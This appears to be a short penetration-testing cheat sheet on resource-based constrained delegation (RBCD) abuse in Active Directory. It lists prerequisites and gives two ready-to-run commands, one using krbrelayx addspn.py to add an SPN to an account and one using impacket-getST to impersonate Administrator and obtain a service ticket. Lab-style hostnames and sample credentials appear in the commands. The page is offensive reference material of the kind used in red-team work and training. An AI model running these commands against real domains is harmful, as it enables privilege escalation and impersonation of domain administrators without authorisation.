 # Delegation
## RBCD
**Prerequisites**
- Desired service account should have an `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute featuring a infected account's SPN. (You should be able to create fake machine account (if you do NOT already own one!) and modify target service's attributes (if it DOESN'T feature your owned account already!))
- The victim should be not in "Protected Users" group.
- The victim should not have an "Account is sensitive and cannot be delegated" attribute set.
- Infected account should have an `TRUSTED_TO_AUTH_FOR_DELEGATION` flag featured in it's `userAccountControl` attribute
- Infected account (that is set in the value of `msDS-AllowedToActOnBehalfOfOtherIdentity` of a target service) should have an SPN (machine accounts BY DEFAULT have `GenericWrite` to themselves, so if you compromise a machineaccount you can write an SPN to it) (user accounts BY DEFAULT **DO NOT** have `GenericWrite` to themselves, so if you compromise a useraccount you **can NOT** write an SPN to it, it should *already* have an SPN)
- If relay to LDAP, LDAP singing should be OFF

```bash
# add SPN to current user
python3 utils/krbrelayx/addspn.py -u 'CONTOSO\TestAcc' -p 'win2016-cli-P@$swd' -s 'host/testspn.contoso.org' -t 'TestAlpha' 192.168.68.64

# get a TGS for any user to a target service
impacket-getST -spn 'HOST/WIN-NUU0DPB1BVC' -impersonate 'Administrator' -dc-ip 192.168.68.64 'contoso.org/TestAlpha:win10-gui-P@$swd'
```

